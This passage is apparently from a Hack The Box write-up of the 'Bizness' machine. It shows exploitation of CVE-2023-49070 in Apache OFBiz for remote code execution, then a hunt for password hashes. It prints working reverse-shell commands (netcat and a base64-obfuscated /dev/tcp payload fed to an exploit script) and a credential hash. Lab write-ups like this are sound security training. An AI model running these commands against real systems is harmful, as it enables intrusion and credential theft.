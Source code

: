 - Then, they cloned the following [repository](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass), which contains PoCs to exploit `CVE-2023-49070` and achieve RCE. It is necessary to use the `java-1.11.0-openjdk-amd64` version so that the python3 script can correctly use the `ysoserial-all.jar`

```bash
❯ update-java-alternatives -l
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
java-1.22.0-openjdk-amd64      2211       /usr/lib/jvm/java-1.22.0-openjdk-amd64

> sudo update-java-alternatives -s java-1.11.0-openjdk-amd64 

```

- That's quite a significant achievement! RCE (Remote Code Execution)

![](/assets/images/HTB-Writeup-Bizness/Pasted image 20240510124205.png)

- A `fileless method` for obtaining a reverse shell, the simplest approach, and since `nc` is installed, is the following command:

```bash
nc 10.10.14.193 4444 -e /bin/bash
```

![](/assets/images/HTB-Writeup-Bizness/Pasted image 20240510125536.png)

>Comments:
> My favorite method when using `ysoserial-all.jar` for RCE is the following payload, which utilizes the concept of [`Bash Brace Expansion`](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/):
{: .prompt-info }

```bash
> echo -n 'bash -i >& /dev/tcp/10.10.14.193/4444 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTMvNDQ0NCAwPiYx 
> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
# python3 exploit.py --url https://bizness.htb --cmd 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}'
```

![](/assets/images/HTB-Writeup-Bizness/Pasted image 20240510130057.png)

## Root

- After exhaustive enumeration, it was discovered that the webserver of the OFBiz software is using the default `Derby` RDBMS. The pentester conducted a password search with the following command, finding `SHA1` hashes (identical for different accounts), indicating the encryption type in use for storing credentials.

```bash
> grep -irnP "password.{10}"
<SNIP>
<UserLogin userLoginId="DemoEmployee1" currentPassword="{SHA}47b56994cbc2b6d10aa1be30f70165adb305a41a"
<SNIP>
```
